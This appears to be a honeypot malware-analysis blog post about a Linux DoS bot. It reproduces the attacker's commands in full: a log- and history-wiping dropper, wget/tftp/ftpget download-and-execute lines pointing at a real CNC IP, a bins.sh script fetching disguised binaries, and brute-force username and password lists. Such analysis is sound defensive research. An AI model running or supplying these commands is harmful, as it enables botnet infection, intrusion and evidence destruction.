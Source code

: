 ```yaml
---
layout: post
title: "b08f9dc5784532be5b3f695f37c7781b"
date: 2018-09-06
categories:
    - blog
tags:
    - malware analysis
    - reverse engineering
    - honeypot
keywords: "re, malware, honeypot"
---
```


Initial file dropped:

```
clear ; unset ; rm -rf /var/run/utmp /var/log/wtmp /var/log/lastlog /var/log/messages /var/log/secure /var/log/xferlog /var/log/maillog /root/.bash_history ; unset HISTFILE ; unset HISTSAVE ; unset HISTLOG ; history -n ; unset WATCH ; export HISTFILE=/dev/null ; wget keedz.tk/client ; chmod +x client ; ./client ; rm -rf client ; rm -rf bash_history ; export HISTFILE=/dev/null ; rm -rf botz.sh ; exit
```

The `client` is a 64-bit ELF binary. The binary acts as a DoS bot which connect to their CNC (5.135.209.121) on port 23.

Available commands:

```
GETLOCALIP
SCANNER ON | OFF
HOLD
JUNK
HTTP
COMBO
KILLATTK
FUCKOFF
```

Below is the connection to the CNC:

```
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* SCANNER ON
PING
PONG
```

If you try to connect for the 2nd time, this will be output.

```
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* LOLNOGTFO
Connection closed by foreign host.
```

However, the CNC can be connected again after a few seconds.

The binary spread by bruteforcing the login for a random IP addresses.

List of usernames:

```
root
admin
user
login
guest
support
```
List of passwords:

```
root
toor
admin
user
guest
login
changeme
1234
12345
123456
default
password
support
```

Once logged in, it will execute the following commands:

```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 5.135.209.121 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 5.135.209.121; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 23 5.135.209.121 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *; exit
```

Inside bins.sh, more binary will be fetch

```
-e #!/bin/bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ntpd; chmod +x ntpd; ./ntpd; rm -rf ntpd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sshd; chmod +x sshd; ./sshd; rm -rf sshd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/openssh; chmod +x openssh; ./openssh; rm -rf openssh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bash; chmod +x bash; ./bash; rm -rf bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/tftp; chmod +x tftp; ./tftp; rm -rf tftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/wget; chmod +x wget; ./wget; rm -rf wget
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/cron; chmod +x cron; ./cron; rm -rf cron
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ftp; chmod +x ftp; ./ftp; rm -rf ftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/pftp; chmod +x pftp; ./pftp; rm -rf pftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sh; chmod +x sh; ./sh; rm -rf sh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/' '; chmod +x ' '; ./' '; rm -rf ' '
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/apache2; chmod +x apache2; ./apache2; rm -rf apache2
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/telnetd; chmod +x telnetd; ./telnetd; rm -rf telnetd
```
